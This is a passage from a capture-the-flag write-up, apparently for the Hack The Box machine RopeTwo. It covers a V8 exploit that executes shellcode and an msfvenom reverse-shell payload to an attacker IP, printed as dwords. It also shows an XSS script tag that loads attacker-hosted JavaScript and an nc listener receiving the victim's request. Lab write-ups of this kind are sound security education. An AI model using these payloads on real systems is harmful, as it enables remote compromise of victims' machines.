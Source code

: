 

I could also run it outside of `gdb`, which is a good check to make sure
I removed any `%DebugPrint` calls, which will fail without
`--allow-natives-syntax`:



    df@buntu:~/v8$ out.gn/x64.release/d8 exploit2.js 
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112a5
    [+] Found address of rwx page: 0x215ea6e9d000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...



#### Remote Shellcode

I'll do the same thing, this time with my HTB Tun0 IP:



    root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f dword
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 76 bytes
    Final size of dword file: 232 bytes
    0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x0e0e0a0a, 0xe6894851, 0x6a5a106a, 
    0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
    0x52e78948, 0xe6894857, 0x0000050f



I'll update `exploit.js`. The final full version is
[here](/files/ropetwo-pwn-v8.js).

### Find XSS

With an exploit for the vulnerable browser, I need some way to get the
user on RopeTwo to load JavaScript from my host. I went back to
`/contact` on port 8000. I had tried some basic XSS attempts during
initial enumerations (like sending a link to be clicked) without luck.
But here I want their browser to load script from me, so I tried a
script tag:



    <script src="http://10.10.14.14/script.js"></script>



With `nc` listening, a request arrived:



    root@kali# nc -lnvp 80
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::80
    Ncat: Listening on 0.0.0.0:80
    Ncat: Connection from 10.10.10.196.
    Ncat: Connection from 10.10.10.196:48812.
    GET /script.js HTTP/1.1
    Host: 10.10.14.14
    Connection: keep-alive
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4157.0 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US
